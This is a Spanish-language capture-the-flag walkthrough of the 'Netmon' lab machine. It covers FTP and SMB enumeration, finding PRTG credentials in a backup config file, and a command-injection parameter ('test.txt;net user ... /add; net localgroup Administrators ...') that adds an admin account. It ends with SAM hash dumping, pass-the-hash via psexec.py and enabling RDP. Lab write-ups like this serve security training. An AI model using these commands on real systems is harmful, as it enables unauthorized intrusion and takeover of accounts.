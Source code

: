 ## Summary

Tags: 
Y
- IP -> 10.10.10.152
- Ports -> TCP (21, 80, 135, 139, 445, 5985, 47001, 49664-9), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 21 -> ftp anonymous login allowed
    - 80 -> httpd 18.1.37.13946 (PRTG Network Monitor)
    - 135 -> msrpc
    - 139 -> netbios-ssn
    - 445 -> samba microsoft-ds Windows server 2008 R2 - 2012 microsoft-ds

## Recon
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP y ahi podemos encontrar la flag de user.txt
- Comando -> **crackmapexec smb {ip_targeted}** Para ver si podemos listar los servicios de Windows del puerto 445 y nos sale Netmon 
- Comando -> **smbclient -L** **{ip_targeted} -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
- - Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80, pero en este caso nos marca un error, por lo que miramos la pagina web.

Buscamos que es PRTG network monitor y tambien sus default password. **admin and user = prtgadmin** pero no funcionan. por lo que seguiremos buscando en ftp.
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP, por lo que trataremos de buscar el (**paessler RPTG bandwit monitor**),  y encontrar rutas que nos puedan dar credenciales en texto claro
Rutas tipicas son:
- >cd "**Program Files**" Pero no encotramos nada interesante

- >cd "**Program Files (x86)**" Nos movemos a ese dir dentro del ftp
- >cd "PRTG Network Monitor" Nos movemos a ese directorio 
- >cd 'webroot' Nos metemos en ese dir que encontramos pero no encontramos nada

ProgramData especifica la ruta de acceso a la carpeta program-data (C:\\ProgramData). A diferencia de la carpeta archivos de programa, las aplicaciones pueden usar esta carpeta para almacenar datos para los usuarios estandar, ya que no requiere permisos elevados.

- >cd "**ProgramData**" Nos metemos dentro del dir y encontramos Paessler que lo encontramos con el comando (ls -la) para archivos ocultos
- >cd Paessler Nos metemos dentro del dir para ver si encontramos algo
- >cd "PRTG Network Monitor" Ingresamos al dir y encontramos el siguiente archivo jugoso
- >get "PRTG Configuration.dat" Archivo que puede contener credenciales y no lo descargamos

- Comando -> **cat "PRTG Configuration.dat" | grep -i password -C 1 | less**  Buscaremos la palabra password ahi adentro sin importar que este con mayusculas o minusculas (i=insensitive, c=listar una linea) y con less lo miramos en formato pagina. Pero no encontramos nada.

- >get "PRTG Configuration.old.bak" Ahora nos descargamos este archivo que tiene pinta de un backupy podria tener credenciales y nos lo descargamos
- Comando -> **diff "PRTG Configuration.dat" "PRTG Configuration.old.bak" | less**  Buscaremos la diferencia entres esos dos archivos, por lo que llegamos a encontrar un user=prtgadmin y password=PrTg@dmin2018

Ahora podemos acceder en la pagina web con esas credenciales obtenidas, pero nos marca error, por lo que si nos poenmos a pensar la encontramos en un archivo old, por lo que le aumentaremos a 2019 para ver si podemos entrar y lo logramos.

Buscamos en Google (PRTG Network Monitor command injection) Y nos dice que a traves de las notificaciones de la pagina web nosotros podemos ingresar un comando. Cuando creamos una y en la parte de "ejecute Program"
	Program File: **.ps1**
	Parameter: **test.txt;net user omar Omar123#! /add; net localgroup Administrators omar /add** 

Con eso vamos a poder agregar un usaurio que pretenezca al grupo Administrator
Despues le damos save. 

Para nosotros poder activar la notificacion que acabamos de crear le damos a la casilla y despues le damos a send test notification. 

- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando verificamos que exista el usuario que hemos colocado en la pagina web y si es asi nos pondra un [+] Pwn3d!.

## User

## Root
Cuando tengamos credenciales validas en el crackmapexec, podemos usar este servicio para conectarnos.
- Comando -> **evil-winrm -i {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando nos conecta al servicio del servidor de winrm y de ahi podemos visualizar la flag root.txt final


--
Alternativo:
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’} --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -H {‘hash’}** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!. 
- Comando -> **psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes 's25df1s6fse86'** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 
- Comando -> **remmina** Para podernos conectar a la maquina victima por RDP de forma grafica
	Ahi adentro le colocamos la IP
	Nombre, Password
	Dominio: WORKGROUP o netmon
	Aceptar 
Y nos debe de conectar al RDP